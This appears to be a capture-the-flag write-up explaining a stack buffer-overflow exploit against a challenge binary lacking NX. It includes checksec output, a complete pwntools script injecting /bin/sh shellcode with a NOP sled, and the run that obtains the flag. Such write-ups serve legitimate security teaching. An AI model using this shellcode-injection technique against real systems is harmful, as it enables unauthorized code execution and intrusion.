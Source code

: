 and the binary protections
```bash
$ checksec ./shellprompt
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```
{: .nolineno }

A binary without NX means that we can execute shellcode from the stack, and the `shell` function provides us with the address of the buffer where our input is located.

The exploit here is that we can input `shellcode` and overwrite the `rip` register to make the program jump to and start executing our shellcode.

We start by finding the offset to `rip` with the same method as the two previous challenges. We find the offset to be 140.

Since we have to write 140 bytes, consisting of our shellcode + padding, to start to overwrite `rip`, we will use a `nopsled` to lead the program execution to our shellcode.

If we had used e.g. `A`'s as the padding in our shellcode the program would crash to du `0x41` not being valid instructions. We will therefore use `nop` instructions which are `0x90`, as they just pass on the execution to the next instruction, until it eventually hits our shellcode. [Computerphile](https://www.youtube.com/watch?v=1S0aBV-Waeo) has a nice video explaining the attack we perform more in detail.

So our payload will then consist of `nops + shellcode + buffer-address`, and ends up looking like this
```python
context.arch = 'i386'
offset = 140
io = start()

io.recvuntil(b"secret: ")
buffer = int(io.recvline().strip(), 16)
log.success("buffer: " + hex(buffer))

payload = asm(shellcraft.sh()).ljust(offset, b"\x90")
payload += pack(buffer)

io.recvuntil(b"Execute: ")
io.sendline(payload)
io.interactive()
```
{: .nolineno }

`shellcraft.sh()` is a pwntools function which creates assembly-instructions (our shellcode) which spawn a `/bin/sh` shell for us.

```bash
$ python3 exploit.py
[+] buffer: 0xfff1b530
[*] Switching to interactive mode
$ cat flag
cvctf{ret2ShELLc0d3_b013af54}
```
{: .nolineno }